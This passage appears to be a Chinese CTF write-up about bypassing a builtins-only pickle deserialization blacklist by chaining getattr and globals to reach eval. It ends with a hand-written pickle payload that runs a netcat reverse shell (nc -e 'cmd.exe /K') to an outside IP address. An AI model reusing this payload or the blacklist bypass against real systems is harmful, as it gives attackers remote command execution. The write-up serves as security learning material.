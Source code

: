 接下来就是如何构造恶意的pickle代码的问题了

题目限制了只能加载builtins里的属性

且属性名不能为以下内容

```
blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}
```

利用`__reduce__`来生成pickle代码已经无法满足要求了,我们不得不手写pickle代码,怎么手写就不详细讲了

我们现在把目光聚焦在如何构造利用链上



builtins的属性(删除部分)

```python
['_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

我们查看builtins的属性我们发现两个有意思的东西,一个是getattr,另一个是globals

虽然限制我们属性名不能为eval啥的,但是并没有限制不能出现在参数处

所以`getattr(builtins,"eval")`便能得到eval方法了

但是看pickle的操作码并没有发现能直接导入一个模块的操作,在结合globals我们很容易想到`getattr(getattr(globals(),"builtins"),"eval")`

最后的payload:`builtins.getattr(builtins.getattr(builtins.globals(),"builtins"),"eval")("evil code")`

其对应的pickle代码是

```python
b'''cbuiltins
globals
(tRp100
cbuiltins
getattr
p101
(g100
S'get'
tR(S'builtins'
tRp103
g101
(g103
S'eval'
tR(S'eval(\'\'\'__import__('os').system('nc -e "cmd.exe /K" 39.108.164.219 60000 -d')\'\'\')'
tR.'''
```

最后就差secret_key了,看别人的wp都是调试易得易得secret_key//

